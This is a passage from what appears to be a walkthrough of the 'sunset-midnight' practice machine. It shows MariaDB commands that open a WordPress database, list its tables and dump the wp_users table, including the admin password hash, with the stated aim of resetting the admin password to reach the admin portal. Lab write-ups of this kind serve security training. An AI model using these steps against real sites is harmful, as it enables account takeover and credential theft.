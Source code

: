   Accessing the server in the webrowser confirms that the server is hosting Wordpress page.
  
- We can access wordpress_db with the following command:

	  MariaDB [(none)]> connect wordpress_db
	  Reading table information for completion of table and column names
	  You can turn off this feature to get a quicker startup with -A

	  Connection id:    48248
	  Current database: wordpress_db
	
- Now that we have access to the database we want to change to admin password so that we can log into the admin portal.  First let us identify the user we want to change:

	  MariaDB [wordpress_db]> SHOW TABLES;
	  +------------------------+
	  | Tables_in_wordpress_db |
	  +------------------------+
	  | wp_commentmeta         |
	  | wp_comments            |
	  | wp_links               |
	  | wp_options             |
	  | wp_postmeta            |
	  | wp_posts               |
	  | wp_sp_polls            |
	  | wp_term_relationships  |
	  | wp_term_taxonomy       |
	  | wp_termmeta            |
	  | wp_terms               |
	  | wp_usermeta            |
	  | wp_users               |
	  +------------------------+
	  13 rows in set (0.092 sec)

	  
	  MariaDB [wordpress_db]> SELECT * FROM wp_users;
	  +----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
	  | ID | user_login | user_pass                          | user_nicename | user_email          | user_url               | user_registered     | user_activation_key | user_status | display_name |
	  +----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
	  |  1 | admin      | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ | admin         | example@example.com | http://sunset-midnight | 2020-07-16 19:10:47 |                     |           0 | admin       |
	  +----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
	  1 row in set (0.101 sec)
	  